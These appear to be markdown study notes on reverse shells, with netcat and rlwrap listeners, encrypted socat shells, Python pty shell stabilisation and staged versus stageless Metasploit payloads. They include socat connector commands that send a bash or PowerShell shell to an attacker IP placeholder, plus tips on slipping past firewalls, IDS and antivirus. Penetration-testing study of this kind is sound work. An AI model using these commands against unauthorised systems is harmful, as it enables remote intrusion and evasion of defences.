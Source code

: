 ```Bash

```

## Netcat
The syntax for starting a netcat listener using Linux is this:
```Bash
nc -lvnp <port-number>
```
Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

## Socat
Although, it is same as netcat, but the real difference for which we would prefer this is encrypted shells. This often bypasses IDS system.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use below command to listen on a port:
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
For Windows Target-
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"powershell.exe,pipes"
```
## Shell Stablize
### Using Python
```Bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This will give us access to term commands such as clear - 
```Bash
export TERM=xterm
```
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

### Using rlwrap
To use rlwrap, we invoke a slightly different listener:
```Bash
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 

## Metasploit Payloads
Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

**Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.

**Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

***For example*** - **shell_reverse_tcp**. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be: **shell/reverse_tcp**
